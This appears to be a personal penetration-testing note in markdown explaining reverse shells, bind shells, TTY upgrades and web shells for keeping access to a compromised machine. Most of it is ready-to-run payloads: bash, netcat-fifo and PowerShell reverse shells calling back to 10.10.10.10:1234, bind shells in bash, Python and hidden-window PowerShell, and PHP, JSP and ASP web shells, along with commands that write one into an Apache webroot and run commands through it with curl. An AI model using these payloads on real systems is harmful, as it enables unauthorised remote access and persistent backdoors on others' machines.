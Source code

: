 # Why get a shell?

Once you have a system comprised, you dont want to have to configureand execute the same exploit to return to the system. Using networking protocols like ssh for Linux or WinRm for windows can get you a command line interface for an ip, but you will need credentials for that. Finding a service running on a system that is vunerable to opening shells can leave the attacker with a convenient point of entry back the to target.


# Reverse Shell
If you find a system that us vulnerable to remote code execution, you execute commands on the target machine to connect back to your machine. On your machine you use netcat to listen on a port, then on the target machine you execute a payload for a windows shell or linux shell

Commands to run on your machine:

``` bash 

nc -lvnp <port-number> 
```

-l stands for listen, v is for verbose so netcat will print outpur updating us on the state of the connection, n blocks DNS resolution so our machine doesnt try to connect to a DNS server and translate the incoming ip to a domain name and waste time, and p allows you to specify a port.

payloads to run on target machine:

linux shells:
``` bash

	bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'
```

or

``` bash
	rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 1234 >/tmp/f

```

windows shell:

``` powershell

	powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10',1234);$s = $client.GetStream();[byte[]]$b = 0..65535|%{0};while(($i = $s.Read($b, 0, $b.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($b,0, $i);$sb = (iex $data 2>&1 | Out-String );$sb2 = $sb + 'PS ' + (pwd).Path + '> ';$sbt = ([text.encoding]::ASCII).GetBytes($sb2);$s.Write($sbt,0,$sbt.Length);$s.Flush()};$client.Close()"

```

Note: Since reverse shells have the target machine sending requests to connect to our machine, once the connection is closed you will have to run the exploit again for RCE (Remote Code Execution)

# Bind Shell

The opposite of the reverse shell. You have to configure the target machine to start listening on a certain port, then you send a connection to those ports on the target machine.

Payloads to open a Bind Shell:

Bash

``` bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc -lvp 1234 >/tmp/f
```

Python 

``` python
python -c 'exec("""import socket as s,subprocess as sp;s1=s.socket(s.AF_INET,s.SOCK_STREAM);s1.setsockopt(s.SOL_SOCKET,s.SO_REUSEADDR, 1);s1.bind(("0.0.0.0",1234));s1.listen(1);c,a=s1.accept();\nwhile True: d=c.recv(1024).decode();p=sp.Popen(d,shell=True,stdout=sp.PIPE,stderr=sp.PIPE,stdin=sp.PIPE);c.sendall(p.stdout.read()+p.stderr.read())""")'

```

Windows Powershell

``` powershell

powershell -NoP -NonI -W Hidden -Exec Bypass -Command $listener = [System.Net.Sockets.TcpListener]1234; $listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + " ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();
```


On your machine, you connect to the port you set with the payload using netcat

``` bash
nc <ip-address> <port-number>
```


Note: Bind shells do not require the attacker to re-run the exploit because it is conifguring the target machine to passivley listen and wait for a connection. If we lose our connection, we can connect again with netcat

# Upgrading TTY

Once connected to another machine with netcat, you won't have the same conveniences available to you with a local shell. Namely naviagating the input efficiently by moving word by word or jumping to the end/startof a line. You will only be able to delete and add individual charecters. (You can also configure your .bashrc file to allow vim motions for inputs to the command line). In a normal TTY session, you will also not be able to hit the up arrow to access previous commands. You will need to upgrade the shell to have full terminal functionality with a method such as 'python/stty'


# WebShell

A webshell lets you see that output of your commands on the server from the public facing web page. It accepts commands through http parameters like 'GET' or 'POST', You have to write the payload to a file at the root of the webserver, then either curl the web server root or visit it in your browser. If you found a upload vunlnerability, you upload it to the root directory. With Remote Code Execution, you can write a new file directly to the root directory. 

 
Here are some payload examples:

php:
``` php
<?php system($_REQUEST["cmd"]); ?>
```

jsp:

``` jsp
<% Runtime.getRuntime().exec(request.getParameter("cmd")); %>
```

asp:

``` asp
<% eval request("cmd") %>
```


Here are some examples of the default web root you must write the payload to on common servers:


```

Web Server	Default Webroot
*********	***************

Apache		/var/www/html/
Nginx		/usr/local/nginx/html/
IIS		c:\inetpub\wwwroot\
XAMPP		C:\xampp\htdocs\

```




You write to a location with '>' but you first must 'echo' the command as a string. For example:


``` bash
echo '<?php system($_REQUEST["cmd"]); ?>' > /var/www/html/shell.php
```

This command creates a new file in the default root directory of an Apache Web server.

Webshells are quite nifty. They do not open up any new connections on other ports like a bind or reverse shell would on port 22. This means that a web shell would not trigger a firewall to block the connection since it runs of port 80 or 443 (http or https) for handling typically traffic. If the target host is rebooted, your webshell script will still exist in the root directory, allowing you to access the server as long as that file is still there. 

Webshells have their downsides though. Every new command must be intiated through a new http request via curl, so it can be cumbersome. You can write a python command line application to automatically create and send the http request for each command.

# Accessing the webshell

Be sure to add the argument when you curl or visit the payload you wrote to the root directoy.

An example with a php shell would look like this:

``` php 
$ curl http://SERVER_IP:PORT/shell.php?cmd=id
```

























